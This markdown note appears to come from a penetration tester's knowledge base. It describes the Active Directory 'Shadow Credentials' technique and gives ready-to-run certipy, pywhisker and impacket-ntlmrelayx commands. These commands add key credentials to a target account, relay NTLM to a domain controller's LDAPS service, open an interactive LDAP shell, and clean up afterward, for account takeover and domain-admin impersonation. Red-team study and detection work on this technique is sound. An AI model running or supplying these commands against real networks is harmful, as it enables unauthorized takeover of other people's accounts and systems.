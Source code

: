 ```yaml
---
title: Shadow Credentials
---
```


> It is possible to add *Key Credentials* to the `msDS-KeyCredentialLink` attribute of the target user or computer object and then perform Kerberos authentication as that account using PKINIT.
> [source](http://web.archive.org/web/20221209164503/https://scribe.rip/@specterops/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab)

Shadow Credentials require Windows Server 2016 domain functional level or higher.

[[notes/ad/dacl-abuse|Abuse]] `GenericWrite` on a user object (`jdoeadm`) to add a key credential and retrieve the certificate.
Now you can authenticate as the user via [[notes/ad/kerberos-pkinit]].
If you got computer instead, you can impersonate a domain admin on that computer trough [[notes/ad/kerberos-delegate2thyself]] / [[notes/ad/kerberos-s4u2self]].

=== "[[notes/tools/certipy]]"
    Add a new key credential, authenticate via [[notes/ad/kerberos-pkinit]], [[notes/ad/unpac-the-hash]] and remove the key credential in one go.

    ~~~ bash
    certipy shadow auto -u jdoe@corp.local -p 'passw0rd' -account jdoeadm
    ~~~

=== "[[notes/tools/pywhisker]]"
    ~~~ bash
    pywhisker -v -d corp.local -u jdoe -k --no-pass -t jdoeadm --action add -P ''
    ~~~

Clean up.

=== "[[notes/tools/pywhisker]]"
    The device UUID is printed by the command above.

    ~~~ bash
    pywhisker -d corp.local -u jdoe -k --no-pass -t jdoeadm --action remove --device-id $uuid
    ~~~

=== "[[notes/tools/certipy]]"
    ~~~ bash
    certipy shadow remove -u joe@corp.local -p 'passw0rd' -account jdoeadm -device-id $uuid
    ~~~

NTLM relay [[notes/ad/ntlm-relay-to-ldap|to LDAP]] and open an interactive LDAP shell ([source](https://twitter.com/an0n_r0/status/1620906917664100353)).
When relaying a computer account the shadow target should be the SAM account name, e.g. `ws01$`.

=== "[[notes/tools/impacket]]"
    Requires [PR 1402](https://github.com/fortra/impacket/pull/1402).

    ~~~ bash
    impacket-ntlmrelayx --no-dump --no-da --no-acl --no-validate-privs --no-smb-server --no-wcf-server --no-raw-server --http-port 8080 --interactive --target ldaps://dc01.corp.local
    ~~~

    ~~~
    $ nc -v 127.0.0.1 11000
    # set_shadow_creds jdoeadm
    # clear_shadow_creds jdoeadm
    # exit
    ~~~

NTLM relay [[notes/ad/ntlm-relay-to-ldap|to LDAP]].
Requires manual cleanup.

=== "[[notes/tools/impacket]]"
    ~~~ bash
    impacket-ntlmrelayx --no-dump --no-da --no-acl --no-validate-privs --no-smb-server --no-wcf-server --no-raw-server --http-port 8080 --shadow-credentials --shadow-target jdoeadm --target ldaps://dc01.corp.local
    ~~~

Untested tools:

- [Whisker](https://github.com/eladshamir/whisker), written in C#

References:

- [A Hitch-hacker's Guide to DACL-Based Detections (Part 1A)](http://web.archive.org/web/20231010183106/https://trustedsec.com/blog/a-hitchhackers-guide-to-dacl-based-detections-part-1-a)
- [GOAD - part 12 - Trusts](http://web.archive.org/web/20221221202441/https://mayfly277.github.io/posts/GOADv2-pwning-part12/#foreign-group-and-users), shadow credentials across forests
- [thehacker.recipes/ad/movement/kerberos/shadow-credentials](https://www.thehacker.recipes/ad/movement/kerberos/shadow-credentials)
